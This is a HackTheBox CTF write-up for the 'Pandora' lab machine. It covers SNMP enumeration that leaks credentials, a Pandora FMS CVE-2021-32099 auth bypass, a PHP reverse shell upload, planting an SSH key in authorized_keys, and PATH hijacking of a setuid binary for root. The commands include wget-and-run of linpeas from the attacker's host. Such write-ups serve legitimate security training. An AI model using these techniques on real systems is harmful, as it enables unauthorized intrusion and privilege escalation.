






This is my writeup on Hackthebox **Easy** machine, Pandora. This was a bit hard machine than other easy machines because it involved double privelege escalation and I had to deal with some new services and techniques which atleast I didn't know in detail.

As always I started with scanning the target machine with ```Nmap``` and found the ssh and http port open.

On opening the website, it was a simple html page, with no link working or any connection with server. So I decided to ignore this.
Next, I tried some default logins on ssh port, but no success there too. This led me to conclude that there must be other service running on this machine, which Nmap couldn't discover in first scan. I scanned again but this time top 20 ports on tcp but nothing.

Then I did UDP scan on top 20 ports.

```
nmap -T4 -sV -sU --top-ports 20  10.10.11.136
```

This gave me the following output.

So we have the **SNMP** service running on port 161. I had to read about this service a bit as I hadn't dealt with it before. I  read some standard enumerations of snmp and thought to use Metasploit for this as it has all the built-in scanners. I used snmp enumeration module.

```
msfconsole
use auxiliary/scanner/snmp/snmp_enum
setg RHOSTS 10.10.11.136
run
```

On running, I got the a long output containing machine name, running processes and other information. On going through the output I found a set of credentials in running services.

I tried these credentials on ssh, and luckily I got in!!

After searching for flag file, I found that there is another user ```matt``` who owns the user flag file. So next task was to escalate privelege to matt user.

I decided to use Linpeas.sh(Linux privelege escalation awesome script) to look for path to privelge Escalation. You can get script [here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220306).
You can also use Msf module [PEASS](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit) for using this script.
I uploaded the script on the target machine and ran it. I used python http.server module to upload file onto target machine.
```
python3 -m http.server 8002
```
Then on pandora, run the following commands:
```
wget http://10.10.16.43:8002/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
On going through the output, I found this information intersting. It looks there is another website hosted on localhost.localdomain.



Using ssh local port forwarding, I forwarded the port 80 of target machine to port 8081 of my attacking vm.

```
ssh -L 8081:localhost:80 daniel@10.10.11.136 
```
On opening ```localhost:8081``` in browser I got login page of Pandora FMS. On bottom of the page, I found the version of the service as v7.0. On searching ```pandora fms 7.0 exploit``` I found [this](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) useful link.

I searched for CVE-2021-32099 exploit on github and found [this](https://github.com/ibnuuby/CVE-2021-32099). On entering the url in browser I got admin access. I uploaded [php-reverse-shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) file on file manager. Also on visiting the pandora_console folder on the machine (/var/www/pandora/pandora_console) I saw images folder which had all the uploads.
On opening the uploaded reverse shell file as
```localhost:8081/pandora_console/images/php-reverse-shell``` I got the shell :).
Run the following commands on the web shell to get user flag 
```
echo "<your public ssh key" >> /home/matt/.ssh/authorized_keys
```
Now login into pandora as matt user.

```
ssh matt@10.10.11.136
```
Now we get the user flag !!

For root flag, I ran ```linpeas.sh``` again on the machine and found an executable file ```/usr/bin/pandora_backup``` with executable permission for matt and setuid bit set for root. On running this file, the backup failed because it was using tar for which I didn't have permissions. So I resorted to path poisoning attack.
```
cd /home/matt
echo "/bin/bash" >> tar
export PATH=/home/matt:$PATH
chmod 777 tar
/usr/bin/pandora_backup
```

And finallyyy, you get elevated to root user.


